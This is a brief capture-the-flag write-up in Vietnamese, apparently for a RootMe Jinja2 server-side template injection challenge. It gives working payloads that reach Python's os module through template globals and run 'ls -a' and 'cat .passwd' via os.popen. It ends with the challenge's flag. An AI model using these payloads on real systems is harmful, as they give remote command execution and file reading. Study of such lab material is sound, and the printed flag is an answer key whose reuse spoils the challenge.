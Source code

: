 Link refer: https://podalirius.net/en/publications/grehack-2021-optimizing-ssti-payloads-for-jinja2/#server-side-template-injections

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/7c09a5eb-df93-42f6-9b87-065a872b4e41)

Trong các input thì phần content có thể inject được

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/a8473bd9-2fae-4f8e-b9c0-3d21150675fd)

Sử dụng payload ```{{self._TemplateReference__context.cycler.__init__.__globals__.os}}```
=> import library os

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/12b4b361-0e35-42dd-b436-3003a003e8db)

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/d7d5869d-c1c8-4866-934e-f68b4b6ddeee)

Sử dụng payload
```{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls%20-a').read()}}```. 
Kí tự ```%20``` thay thế cho nhưng khoảng trắng 

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/deeced39-c230-4392-88eb-87032e4a560d)

Thấy được nơi chứa flag là .passwd. Sử dụng payload ```{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat%20.passwd').read()}}```

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/77d7a603-e9a6-4cec-9eaf-7ce85a0e20b5)

=> Python_SST1_1s_co0l_4nd_mY_p4yl04ds_4r3_1ns4n3!!!
